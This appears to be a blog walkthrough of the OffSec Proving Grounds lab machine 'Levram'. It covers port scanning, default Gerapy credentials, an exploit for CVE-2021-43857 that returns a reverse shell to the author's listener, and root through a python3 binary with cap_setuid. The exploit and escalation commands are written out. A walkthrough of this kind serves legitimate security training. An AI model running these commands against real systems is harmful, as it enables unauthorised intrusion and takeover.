 ```yaml
---
title: Levram
description: Proving Grounds Machine Walkthrough
author: hx77
date: 2024-08-15
categories: [walkthrough, provinggrounds]
tags: [provingrounds, machines, walkthrough ]     # TAG names should always be lowercase
pin: false
image: 
    path: https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/78aee95c-ab7b-4cb1-5a28-c86e94471000/public
alt: Walkthrough of Levram
---
```


------

# OffSec Proving Grounds Walkthrough: Levram

## Table of Contents

1. [Introduction](#introduction)
2. [Information Gathering](#information-gathering)
    - [Initial Enumeration](#initial-enumeration)
3. [Exploitation](#exploitation)
    - [Gaining Initial Access](#gaining-initial-access)
    - [Privilege Escalation](#privilege-escalation)
4. [Conclusion](#conclusion)

## Introduction

- **Machine Name:** Levram
- **IP**: 192.168.213.24
- **Points**: 10
- **Difficulty Level:** Easy  
- **Operating System:** Linux
- **Objective:** This walkthrough details the process of identifying and exploiting vulnerabilities in the Levram system to achieve root access. The goal is to gain both user and root flags.

We are starting the journey with an easy box called "Levram",  I am going to tackle this in 4 steps:

1) Information Gathering
2) Exploitation
3) Post-Exploitation

and at the end I'll give you my conclusion of the box :)

Let's begin!

## Information Gathering

### Initial Enumeration

**Tool Used:** Nmap

I begin by scanning the target machine to identify any open ports, I know this box is easy so I'm starting with the bare basics as I don't think there's too much to it.

`nmap -p- -sV 192.168.213.24`

Nmap scan report for 192.168.213.24  
Host is up (0.035s latency).  
Not shown: 65533 closed tcp ports (conn-refused)  
PORT     STATE SERVICE  VERSION  
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)  
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6

from this initial scan I can see that there's a webpage being served over at 192.168.213.24:8000, going to that page, I see:

![website](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/85daad90-5b9d-4948-06c6-e582d1b6ef00/public)

it looks like I will have to guess the username/password but first things first, I "inspect" the page for any comments or anything that can point me to an username or password, this lead me nowhere.... but I do have the words "gerapy"

**Tool Used:** searchsploit  
Using searchsploit I search for "gerapy", this search returned a vulnerability on Gerapy 0.9.7 that leads to a remote code execution.
I don't know what version of gerapy I am looking at, at least, not yet.

![searchsploit](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/5948fc87-05dc-4a79-1b2b-5d02b0059200/public)

next in line is to inspect the code for that vulnerability, I used the below flag to get the path of the file and copy the file into another directory for usage  
`searchsploit -p 50640`  

![searchsploit2](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/bdad7747-7bf8-4567-a4d4-8620be9e7e00/public)

I went ahead and loaded the code to inspect it to see what it does and right in front of my nose I see "username/password"  
![up](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/0ee7a73d-20cb-4587-7f11-1389e2383d00/public)

well, that made things a lot simpler... I went ahead and logged in into the website with those credentials to see what it was

![website1](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/e0ab43b6-f431-458d-d498-79366d863100/public)

at the bottom of the page I can see the gerapy version, 0.9.7! woot! that means the exploit will work!, lets continue reading the exploit to see what else I can find out.... in lines 80 and 81 I can see that I need to have a project ID - right now that website doesn't have any projects so the code will most likely fail if I run it.

![quit](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/032ec068-9b9e-4252-1920-b1681c0e7400/public)

I am currently logged in as the admin - so let's add a project and see what happens

![project](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/695b5112-681f-4814-550d-b8f93ea82000/public)  

it looks like I have the option to upload, close and create. I will go with create to begin with to see what happens when the code is executed, I'll adjust my approach if I get a failure.

![project1](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/a4ee6338-0f24-4402-e9ad-dac36c185b00/public)
 ok so we got everything ready to try the exploit! lets goooo!

## Exploitation

### Gaining Initial Access

Running the python script with all the required flags and a netcat listener ready to go gave me the initial foothold on the machine.

- **Exploit Used:** CVE-2021-43857
- **Command:**  
    `python3 exploit.py -t 192.168.213.24 -p 8000 -L 192.168.45.194 -P 1234`  
- **Outcome:** Gained access as 'app'  

![foothold](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/5d47f3cb-14e9-4fa4-68ca-ddd5995fee00/public)

First flag was found!  

![local_proof](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/54d5f84b-663c-4d5a-da10-098410529b00/public)  

### Privilege Escalation

The purpose of this step is to gain initial access level to root or admin.

- **Tool Used:** Manual methods  
- **Vulnerability Found:**  python!  
- **Exploit Method:**  
    `[exploit command]`  
- **Outcome:** Root access obtained.  

I looked around in the pc for a bit but couldn't find anything useful and for a bit I was stuck :/  
Then I went back to my checklist DUH! (I used this site to populate some of my items in the checklist - <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>)  

so I started with scanning the file system for files with capabilities using **`getcap -r /`**   The **-r** flag tells getcap to search recursively, **/** to indicate that we want to search the whole system, but I also don't want to see all the output because of the errors that will come up, so I used 2>/dev/null which yeets the output errors of the command to a blackhole.

- **Command:**  
 `getcap -r / 2>/dev/null`  

![getcap](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/a4840d62-095b-4674-752c-9dd7de7e5800/public)  

from that list I can see python3 and that it has cap_setuid set! soooo lets try to break out of the shell using  

- **Command:**  
 `./python -c 'import os; os.setuid(0); os.system("/bin/sh")'`  
 I edited it to reflect the path of the binary  
 `/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'`  
this command is used as a backdoor to maintain privileged access by manipulating its own process UIDl (<https://gtfobins.github.io/gtfobins/python/>)  

It worked! I navigated to "root" and was able to get the final flag "proof.txt"  

![root](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/24d40868-faf1-4374-025f-87a5103cf800/public)  
**Done!**  

## Conclusion

- **Summary:** This walkthrough covered the steps from initial enumeration to privilege escalation in the Levram box from proving grounds.
- **Reflection:** I think this was a very good box due to the complexity of the privilege escalation, overall I liked it!
